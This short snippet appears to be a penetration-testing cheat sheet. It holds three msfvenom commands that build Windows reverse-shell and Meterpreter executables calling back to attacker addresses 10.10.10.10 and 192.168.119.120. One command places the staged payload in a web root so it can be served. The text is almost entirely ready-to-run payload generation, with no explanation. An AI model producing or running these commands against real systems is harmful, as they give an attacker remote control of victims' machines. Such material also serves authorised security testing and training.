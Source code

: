 ```non_staged_windows
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o shell.exe
```

```non_staged_meterpreter_windows
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.10.10 LPORT=443 -f exe -o msfnonstaged.exe
```

```staged_meterpreter_windows
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```

